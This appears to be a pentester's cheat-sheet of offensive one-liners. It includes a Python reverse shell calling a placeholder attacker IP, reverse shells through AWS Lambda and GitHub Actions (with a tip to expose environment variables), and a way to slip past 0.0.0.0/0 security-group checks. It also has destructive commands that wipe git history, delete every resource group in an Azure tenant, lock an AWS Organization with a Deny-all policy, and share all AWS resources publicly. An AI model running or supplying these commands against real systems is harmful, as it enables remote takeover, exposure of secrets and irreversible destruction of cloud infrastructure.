 ```yaml
---
description: My favorite one-line commands
---
```


# One-liners and Bad Things

## Reverse Shell

The attacker machine must be public and exposed to the internet.

Run this on the attacker machine:

```
nc -lp 1337
```

Run this on the victim machine:

{% code overflow="wrap" %}
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("BAD_IP_ADDRESS_HERE",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{% endcode %}

If you're in an environment that restricts security groups that match 0.0.0.0/0, chances are they are doing pattern matching and not reasoning about effective network access. You can create an EC2 instance with security groups matching these IP ranges and it will be **effectively the same as 0.0.0.0/0**:

```
1.0.0.0/8
2.0.0.0/7
4.0.0.0/6
8.0.0.0/5
16.0.0.0/4
32.0.0.0/3
64.0.0.0/2
128.0.0.0/1
```

### Reverse Shell on AWS Lambda

Run the attacker command as above.

Then create the Python Lambda function with the code below. NOTE: You have to adjust the Lambda timeout config to much longer, like 15 minutes (the max).

```python
import json
import socket
import subprocess
import os

def lambda_handler(event, context):
    ip_address = event.get('ip')
    port = event.get('port', 1337)
    s = socket.socket()
    s.connect((ip_address, port))
 
    for fd in (0, 1, 2):
        os.dup2(s.fileno(), fd)
 
    subprocess.call(["/bin/bash", "-i"])
```

### Reverse Shell in GitHub Actions

```
name: Reverse Shell Pentesting

on: workflow_dispatch

jobs:
  reverse-shell:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
    
    - name: Setup tmate session
      uses: mxschmitt/action-tmate@v3
      timeout-minutes: 60
```

Run it and you'll see that it prints out an SSH command for you to connect with. You can add `env` to the "Setup tmate session" step to expose environment variables that are available to your GitHub actions workflow.

## Git

### Nuke Git commit history

```
git checkout --orphan newBranch; \ 
	git add -A; \                   # Add all files and commit them 
	git commit -m "Cleanup"; \
	git branch -D main; \           # Delete the main branch
	git branch -m main; \           # Rename the current branch to main
	git push -f origin main; \      # Force push main branch to GitHub
	git gc --aggressive --prune=all # Remove the old files
```

## Azure

### Delete all resources in an entire Azure Tenant

Bash variant:

```
#!/usr/bin/env bash

for sub in `az account list | jq -r '.[].id'`; do \
    for rg in `az group list --subscription $sub | jq -r '.[].name'`; do \
        az group delete --name ${rg} --subscription $sub --no-wait --yes; \
    done; done;
```

Terraform variant:

```
resource "null_resource" "nuke" {
  # Because we set this to timestamp, it *always* runs :D
  triggers = {
    party_like_its_jan_1_1970 = timestamp()
  }

  provisioner "local-exec" {
    command = <<EOF
for sub in `az account list | jq -r '.[].id'`; do \
    for rg in `az group list --subscription $sub | jq -r '.[].name'`; do \
        az group delete --name $rg --subscription $sub --no-wait --yes; \
    done; \
done;
EOF
  }
}
```

My post that explains the above is [here](https://kmcquade.com/2020/11/nuking-all-azure-resource-groups-under-all-azure-subscriptions/).&#x20;

## AWS

### Brick an entire AWS Organization using Deny \* SCPs

```
aws organizations attach-policy \
  --policy-id $(aws organizations create-policy --name pwn \
     --type SERVICE_CONTROL_POLICY \
     --description "pwn" 
     --content '{"Version": "2012-10-17","Statement": [{"Effect": "Deny", "Action": "*", "Resource": "*"}]}' \
    | jq ".Policy.PolicySummary.Id"\
    ) \
  --target-id $(aws organizations list-roots | jq ".Roots | .[0].Id")
```

### Share All Exposable Resources in an AWS Account with the internet 😈

```
endgame smash --service all --evil-principal "*"
```

## Other Resources

* [https://github.com/D4Vinci/One-Lin3r](https://github.com/D4Vinci/One-Lin3r): Gives you one-liners that aids in penetration testing operations, privilege escalation, and more.
